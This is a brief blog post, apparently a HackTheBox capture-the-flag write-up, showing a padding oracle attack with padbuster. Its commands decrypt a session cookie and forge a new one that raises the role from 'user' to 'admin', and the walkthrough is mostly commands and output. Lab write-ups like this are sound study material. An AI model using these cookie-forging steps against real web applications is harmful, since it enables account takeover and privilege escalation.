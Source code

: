 ```yaml
---
title:  "Oracle Padding "
date:   2021-08-05 21:15:00 +0100
categories: [techniques]
tags: [burp, web exploitation]
---
```



STEP 1
======
{% include codeHeader.html %}
`padbuster http://docker.hackthebox.eu:37742 zjtTgJyHOn9YxWLIJu%2BnoDGlL9vvl4RGVm44osvhYXxAkHGGKroFCA%3D%3D --cookies "PHPSESSID=7d5guetet0tj3o1kn8lrd77da0;iknowmag1k=zjtTgJyHOn9YxWLIJu%2BnoDGlL9vvl4RGVm44osvhYXxAkHGGKroFCA%3D%3D" 8 --encoding=0`

*** Response Analysis Complete ***

The following response signatures were returned:


    ID# Freq Status Length Location
    
    1 256 302 0 profile.php


STEP 2
======
{% include codeHeader.html %}
`padbuster http://docker.hackthebox.eu:37742/profile.php zjtTgJyHOn9YxWLIJu%2BnoDGlL9vvl4RGVm44osvhYXxAkHGGKroFCA%3D%3D --cookies "PHPSESSID=7d5guetet0tj3o1kn8lrd77da0;iknowmag1k=zjtTgJyHOn9YxWLIJu%2BnoDGlL9vvl4RGVm44osvhYXxAkHGGKroFCA%3D%3D" 8 --encoding=0`

** Finished ***

    [+] Decrypted value (ASCII): {"user":"bdmin","role":"user"}

    [+] Decrypted value (HEX): 7B2275736572223A2262646D696E222C22726F6C65223A2275736572227D0202

    [+] Decrypted value (Base64): eyJ1c2VyIjoiYmRtaW4iLCJyb2xlIjoidXNlciJ9AgI=


STEP 3
======
{% include codeHeader.html %}
`padbuster http://docker.hackthebox.eu:37742/profile.php zjtTgJyHOn9YxWLIJu%2BnoDGlL9vvl4RGVm44osvhYXxAkHGGKroFCA%3D%3D --cookies "PHPSESSID=7d5guetet0tj3o1kn8lrd77da0;iknowmag1k=zjtTgJyHOn9YxWLIJu%2BnoDGlL9vvl4RGVm44osvhYXxAkHGGKroFCA%3D%3D" 8 --encoding=0 --plaintext "{\"user\":\"admin\",\"role\":\"admin\"}"`

** Finished ***

    [+] Encrypted value is: LDRCU61StZbYrdIXPROTGIprI45i7IsYMAovrw2IGp8AAAAAAAAAAA%3D%3D


STEP 4
======
We add the newly made encrypted value of "role=admin" to the cookies and we find the flag.




Before
------
![img-description](/images/Oracle-Padding-1.png)
_BEFORE - encrypted value of "role=admin" to the cookies_


After
-----
![img-description](/images/Oracle-Padding-2.png)
_AFTER - encrypted value of "role=admin" to the cookies_



